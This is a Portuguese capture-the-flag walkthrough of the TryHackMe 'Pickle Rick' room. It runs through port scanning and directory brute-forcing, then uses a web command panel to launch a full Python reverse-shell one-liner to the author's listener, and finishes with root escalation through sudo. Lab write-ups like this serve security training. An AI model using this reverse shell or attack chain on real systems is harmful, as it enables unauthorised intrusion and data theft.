

# Pickle Rick

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)



```bash
	sudo openvpn file.ovpn
```


## What is the first ingredient that Rick needs?

- nmap no ip
    
    ```bash
    sudo nmap -sV -O 10.10.37.36
    ```
    
- Tem um servidor http aberto
- Vamos ver
    
    
    
- No codigo fonte temos
    
    
    
    ```html
    <!--
    Note to self, remember username!
    
        Username: R1ckRul3s
    -->
    ```
    
- Ja temos o Username de alguma coisa
- Vamos ver se existe mais diretorios
    
    ```bash
    gobuster -u http://10.10.228.131/ -w /wordlist/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
    ```
    
    
    
- Vamos ver esses diretorios
    - robots.txt
        
        
        
    - assets
        
        
        
    - login.php
        
        
        
- Bom vamos testar o usuario e o valor mostrado por robots.txt
    
    
    
- Vamos testar qualquer comando
    
    ```bash
    ls
    ```
    
    
    
- Vamos ver o que tem nesse .txt
    
    
    
- Temos nosso primeiro ingrediente

## What is the second ingredient in Rick’s potion?

- Testando alguns comandos como
    
    ```bash
    cd ..
    ls /home
    ls /home/rick
    cat /home/rick/secon*
    ```
    
- Vemos que nao eh possivel acessar
- Vamos testar algo entao
    
    ```bash
    grep -R .
    ```
    
    | -R | recursive |
    | --- | --- |
    | . | na pasta atual |
    
    
    
- Abrindo o html
    
    
    
- Ou seja ele ta tratando alguns valores
- Entao vamos testar mais coisas no `Command Panel`
    
    ```bash
    python -c "print('hello')"
    python3 -c "print('hello')"
    ```
    
    
    
- Entao podemos rodar python3 nessa aplicacao
- Vamos fazer um reverse shell
    - [https://github.com/cwinfosec/pentestmonkey/blob/master/Reverse_Shell_Cheat_Sheet.md](https://github.com/cwinfosec/pentestmonkey/blob/master/Reverse_Shell_Cheat_Sheet.md)
- Antes vamos abrir nossa porta com o `nc`
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
- Agora na aplicacao
    
    ```bash
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.154.250",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
    
- Entao temos uma conexao
- Vamos ver quem somos e verificar o arquivo que nao conseguimos ver anteriormente
    
    
    
    ```bash
    cd /home/rick
    ls
    cat sec*
    ```
    
- Temos nosso segundo ingrediente

## What is the last and final ingredient?

- Agora vamos ver na pasta root
    
    ```bash
    ls /root
    ```
    
- Nao temos permissao
- Entao vamos elevar nosso privilegio
    
    [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
    ```bash
    sudo -l
    sudo su
    whoami
    ```
    
- Agora que somos root vamos ver o que tem na pasta root
    
    ```bash
    ls /root
    ```
    
    
    
- Vamos ver esse txt
    
    ```bash
    cat /root/3rd.txt
    ```
    
    
    
- Nosso terceiro ingrediente